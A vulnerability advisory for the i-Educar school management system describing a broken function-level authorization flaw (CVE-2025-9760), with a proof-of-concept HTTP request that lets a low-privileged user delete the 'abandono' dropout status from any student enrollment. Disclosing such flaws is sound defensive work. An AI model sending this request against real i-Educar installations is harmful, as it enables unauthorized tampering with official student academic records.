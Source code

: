 # Broken Function Level Authorization on `matricula` API allows deletion of “abandono” status

### Summary

A **Broken Function Level Authorization (BFLA)** vulnerability was identified in the `matricula` API of the **i-Educar** application. This issue allows low-privileged users to delete the **“abandono”** (dropout) status of arbitrary student enrollments by manipulating request parameters.

---

### Details

**Vulnerable Endpoint:**  
`GET /module/Api/aluno`

The application fails to enforce authorization checks to ensure that only privileged users (e.g., administrators) can perform sensitive operations like deleting an abandonment status. By altering the `id` parameter, an attacker can affect records that do not belong to them.

---
### Proof of Concept (PoC)

1. Authenticate as a non-privileged user.

<img width="1380" height="528" alt="image" src="https://github.com/user-attachments/assets/02cd535d-8784-4caf-bb89-08ca04895a91" />

<img width="846" height="616" alt="image" src="https://github.com/user-attachments/assets/92bf93a9-38d6-49be-b911-0e5e06da59f9" />

2. Send the following request:

```
GET /module/Api/matricula?&oper=delete&resource=abandono&id=206 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
X-Requested-With: XMLHttpRequest
Connection: keep-alive
Referer: http://localhost/intranet/educar_matricula_det.php?cod_matricula=206
Cookie: i_educar_session=Mz9IKWGOP641g4BLkSGRnxs69wk4ChmUUxUerX19
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0

```



3. We could observe that the deletion was successful.

<img width="1574" height="542" alt="image" src="https://github.com/user-attachments/assets/aa537a63-20d8-4586-afad-9342380ac332" />

---

### Impact

- **Unauthorized deletion of academic records:** Any low-privileged or compromised account can remove critical status information (e.g., “abandono”) from student enrollments.
    
- **Integrity violation:** Enables tampering with academic data, which can affect official records.
      

This vulnerability directly compromises the **integrity** of the system and could have legal/regulatory implications due to unauthorized modification of academic records.


---

## References

[CVE-2025-9760](https://www.cve.org/CVERecord?id=CVE-2025-9760)

[VulnDB-322061](https://vuldb.com/?id.322061)

[I-Educar – Official Repository](https://github.com/portabilis/i-educar)

## Discoverer

[Marcelo Queiroz](www.linkedin.com/in/marceloqueirozjr) 

by [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)
